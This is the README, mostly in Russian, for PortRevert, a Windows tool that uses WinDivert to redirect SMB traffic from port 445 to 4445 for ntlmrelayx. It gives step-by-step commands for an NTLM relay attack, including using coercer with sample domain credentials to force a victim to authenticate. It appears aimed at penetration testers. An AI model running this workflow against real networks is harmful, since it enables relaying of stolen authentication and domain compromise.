 # PortRevert

SMB port redirector for NTLM relay attacks without stopping the LanmanServer service.

## 🎯 Описание

Этот инструмент перехватывает SMB трафик на порт 445 и перенаправляет его на порт 4445, позволяя использовать ntlmrelayx без остановки службы LanmanServer (которая слушает порт 445).

## 🚀 Возможности

- Перехват всего TCP трафика на порт 445
- Перенаправление на порт 4445 для ntlmrelayx
- Автоматическая обработка двунаправленного трафика (запросы/ответы)
- Корректная очистка драйвера при завершении
- Поддержка как x86, так и x64 архитектур

## 📋 Требования

- Windows 7/8/10/11
- Права администратора
- Visual Studio (для сборки)
- WinDivert 2.2+

## 🛠️ Сборка

1. Установите Visual Studio
2. Скачайте WinDivert 2.2+ с [официального сайта](https://reqrypt.org/windivert.html)
3. Откройте проект в Visual Studio
4. Настройте пути к библиотекам WinDivert
5. Соберите проект (Release x64)

## 🚀 Использование

### Запуск перенаправления:
```cmd
PortRevert.exe
```
### Выгрузка драйвера:
```cmd
PortRevert.exe uninstall
```
## 🎯 Пример использования для NTLM relay
### 1. Запустите PortRevert от имени администратора:
```cmd
PortRevert.exe
```
### 2.  Запустите ntlmrelayx на порту 4445:
```cmd
ntlmrelayx.exe -smb-port 4445 -smb2support -debug
```
### 3. Принудите жертву к аутентификации любым способом, например с помощью coercer:
```zsh
coercer coerce -d cs.org -t dc1 -u test -p 'Password123!' -l pc3 --always-continue

(PortRevert должен быть запущен на хосте-слушателе, в данном случае - pc3)
```
## 🔄 Как это работает
```
Жертва -> Порт 445 
    ↓ (перехват PortRedirector)
Жертва -> Порт 4445 -> ntlmrelayx
    ↓ (ответы)
ntlmrelayx -> Порт 4445 
    ↓ (перенаправление обратно)
ntlmrelayx -> Порт 445 -> Жертва
```

## ⚠️ Важные замечания
- Требуются права администратора
- Не останавливает службу LanmanServer
- Работает с внешним и локальным SMB трафиком
- Файлы WinDivert.sys и WinDivert.dll должны находиться рядом с exe
## 🧹 Очистка

После использования запустите:
```cmd
PortRevert.exe uninstall
```
Это остановит и удалит драйвер WinDivert из системы.
## 📄 Лицензия

Этот проект распространяется по лицензии MIT.
## 🙏 Благодарности

- [WinDivert](https://reqrypt.org/windivert.html) - за отличную библиотеку перехвата пакетов
- Сообществу пентеста за вдохновение
## 🔒 Дисклеймер

Этот инструмент предназначен только для образовательных целей и и всех тех, кто работает в области пентеста и этичного хакинга. Используйте ответственно!
